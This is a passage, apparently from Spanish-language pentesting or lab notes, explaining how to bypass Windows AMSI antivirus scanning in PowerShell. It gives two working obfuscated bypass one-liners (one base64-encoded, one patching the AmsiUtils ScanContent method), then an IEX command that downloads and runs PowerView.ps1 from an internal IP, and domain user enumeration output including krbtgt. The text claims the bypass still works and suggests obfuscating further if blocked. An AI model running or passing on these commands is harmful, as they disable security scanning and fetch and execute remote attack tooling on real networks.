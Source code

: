 En versiones anteriores de `Windows` funciona, pero como esta vulnerabilidad salio muy famosa, ya esta bloqueado en versiones mas actuales, ya que si lo intentamos ejecutar pondria lo siguiente:

```
En línea: 1 Carácter: 1
+ [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetF ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Este script contiene elementos malintencionados y ha sido bloqueado por el software antivirus.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Pero vino otro investigador y dio la solucion de en vez de poner todo ese comando en texto plano, codificarlo en `base64` de la siguiente forma:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

Esto a dia de hoy funciona, en tal caso de que lo siguiera bloqueando se puede ofuscar un poco mas el codigo para poder `bypassear` dicha firma que se pueda ejecutar esto mismo.

Por ejemplo este otro codigo:

URL = [GitHub del codigo](https://github.com/cybersectroll/TrollAMSI)

```powershell
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

Y si ahora sin que nos de ningun error probamos a ejecutar de nuevo el siguiente comando:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.5.205/PowerView.ps1")
```

Vemos que efectivamente nos deja y no nos bloquea absolutamente nada.

Por lo que vamos a probarlo de la siguiente forma:

```powershell
Get-NetUser | select name
```

Info:

```
name
----
Administrator
Guest
krbtgt
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette
Roanna Bidget
Aubry Carolan
Ermina Hatti
```
